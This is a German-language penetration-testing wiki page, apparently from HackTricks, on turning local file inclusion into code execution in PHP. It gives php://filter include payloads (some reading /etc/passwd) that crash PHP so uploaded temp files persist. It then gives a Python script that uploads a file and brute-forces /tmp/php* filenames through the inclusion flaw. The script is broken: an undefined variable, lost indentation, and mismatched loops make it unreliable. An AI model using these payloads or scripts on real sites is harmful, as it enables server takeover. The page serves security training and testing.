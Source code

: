 # LFI2RCE über Segmentierungsfehler

{{#include ../../banners/hacktricks-training.md}}

Laut den Berichten [https://spyclub.tech/2018/12/21/one-line-and-return-of-one-line-php-writeup/](https://spyclub.tech/2018/12/21/one-line-and-return-of-one-line-php-writeup/) (zweiter Teil) und [https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/rJlfZva0m?type=view](https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/rJlfZva0m?type=view) verursachten die folgenden Payloads einen Segmentierungsfehler in PHP:
```php
// PHP 7.0
include("php://filter/string.strip_tags/resource=/etc/passwd");

// PHP 7.2
include("php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA");
```
Sie sollten wissen, dass wenn Sie eine **POST**-Anfrage **mit** einer **Datei** **senden**, PHP eine **temporäre Datei in `/tmp/php<etwas>`** mit dem Inhalt dieser Datei erstellt. Diese Datei wird **automatisch gelöscht**, sobald die Anfrage verarbeitet wurde.

Wenn Sie eine **LFI** finden und es Ihnen gelingt, einen Segmentierungsfehler in PHP zu **auszulösen**, wird die **temporäre Datei niemals gelöscht**. Daher können Sie mit der **LFI**-Schwachstelle danach **suchen**, bis Sie sie finden und beliebigen Code ausführen.

Sie können das Docker-Image [https://hub.docker.com/r/easyengine/php7.0](https://hub.docker.com/r/easyengine/php7.0) zum Testen verwenden.
```python
# upload file with segmentation fault
import requests
url = "http://localhost:8008/index.php?i=php://filter/string.strip_tags/resource=/etc/passwd"
files = {'file': open('la.php','rb')}
response = requests.post(url, files=files)


# Search for the file (improve this with threads)
import requests
import string
import threading

charset = string.ascii_letters + string.digits

host = "127.0.0.1"
port = 80
base_url = "http://%s:%d" % (host, port)


def bruteforce(charset):
for i in charset:
for j in charset:
for k in charset:
for l in charset:
for m in charset:
for n in charset:
filename = prefix + i + j + k
url = "%s/index.php?i=/tmp/php%s" % (base_url, filename)
print url
response = requests.get(url)
if 'spyd3r' in response.content:
print "[+] Include success!"
return True


def main():
bruteforce(charset)

if __name__ == "__main__":
main()
```
{{#include ../../banners/hacktricks-training.md}}
